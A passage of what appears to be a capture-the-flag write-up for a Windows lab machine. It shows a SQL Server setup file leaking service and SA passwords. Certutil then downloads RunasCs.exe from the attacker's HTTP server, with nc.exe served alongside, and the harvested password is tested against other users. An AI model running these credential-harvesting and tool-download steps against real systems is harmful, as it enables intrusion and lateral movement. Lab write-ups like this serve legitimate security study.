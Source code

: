 ```cmd
05/27/2024  01:52 PM    <DIR>          .
05/27/2024  01:52 PM    <DIR>          ..
05/27/2024  01:52 PM    <DIR>          1033_ENU_LP
09/24/2019  09:00 PM                45 AUTORUN.INF
09/24/2019  09:00 PM               784 MEDIAINFO.XML
09/29/2023  04:49 AM                16 PackageId.dat
05/27/2024  01:52 PM    <DIR>          redist
05/27/2024  01:52 PM    <DIR>          resources
09/24/2019  09:00 PM           142,944 SETUP.EXE
09/24/2019  09:00 PM               486 SETUP.EXE.CONFIG
05/27/2024  04:58 PM               724 sql-Configuration.INI
09/24/2019  09:00 PM           249,448 SQLSETUPBOOTSTRAPPER.DLL
05/27/2024  01:52 PM    <DIR>          x64
               7 File(s)        394,447 bytes
               6 Dir(s)   2,609,393,664 bytes free
```

```cmd
C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU>type sql-configuration.ini
type sql-configuration.ini
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

I will download RunasCs.exe to the victim machine to see to which user works:

```bash
❯ ls; echo;echo;python3 -m http.server 80
nc.exe  RunasCs.exe


Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```cmd
C:\Windows\Temp\privesc>certutil.exe -f -urlcache -split http://10.10.14.91/RunasCs.exe RunasCs.exe
```

It works for the user mikasaAckerman and sql_svc:

```bash
C:\Windows\Temp\privesc>.\RunasCs.exe "lkazanof" "IL0v3ErenY3ager" "whoami"
```